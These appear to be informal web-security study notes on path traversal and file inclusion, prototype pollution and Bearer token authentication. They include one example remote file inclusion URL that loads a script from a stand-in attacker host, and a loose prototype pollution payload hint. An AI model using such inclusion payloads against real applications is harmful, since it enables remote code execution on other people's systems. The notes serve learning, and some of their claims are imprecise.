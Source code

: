Cause of vulnerability: Both path traversal and file inclusion vulnerabilities can be caused by poor input validation or sanitization and a lack of proper access controls. Path traversal vulnerabilities occur when the application fails to validate user input used to access the file system, while file inclusion vulnerabilities occur when user input is used to include files from a remote or local server without proper validation.


http: //localhost/index.php? page = http: //someevilhost.com/test.php


### prototype pollution

proto_ = payload(anything could be xss etc)

need to add this in application developer/debugger cosnole.

prototype pollution is a vulnerability that enables threat actors to exploit javascript runtimes.

Threat actors inject properties into existing javascript construct prototypes, attempting to compromise the application.

This vulnerability is called prototype pollution because it allows threat actors to inject values that overwrite or pollute the “prototype” of a base object. This malicious prototype can pass to many other objects that inherit that prototype. Once threat actors can control the default values of the object’s properties, they can tamper with the application’s logic. This can lead to denial of service (DoS) or remote code execution (RCE).

JavaScript can run on the client-side and server-side of a web application, which is why prototype pollution vulnerabilities may exist on both sides. As a result, prototype attacks can vary greatly in scope and damage, depending on the application logic and implementation.

Client-side exploitation of a prototype pollution vulnerability can result in several attacks, such as cross-site scripting (XSS) attacks. In this case, threat actors look for a gadget that relies on the property of an object susceptible to pollution. If the object interacts with the page’s document object model (DOM), threat actors can trigger client-side JavaScript code execution.

### Authentication Bearer Token

Bearer token is used for both authentication and authorisation purposes.

Authorisation: Bearer <token>

This request header will be present across all http request.

Bearer keywork is added to every token mnadatorily.

Actual token will be present in <token> field.

They are commonly used with OAuth 2.0 protocol and other token based authenticated systems.

When a user/client submits credentials to the server , server generates a token upon validation of credentials. This token serves as a proof of authentication and is used to access protected resources on a web server.

"Bearer" keyword easily identifies the type of authentication token and server can apply the correct validation and authorised logic.

Bearer tokens do not hold any information besides the token itself, such as user identity or any specific user permissions.
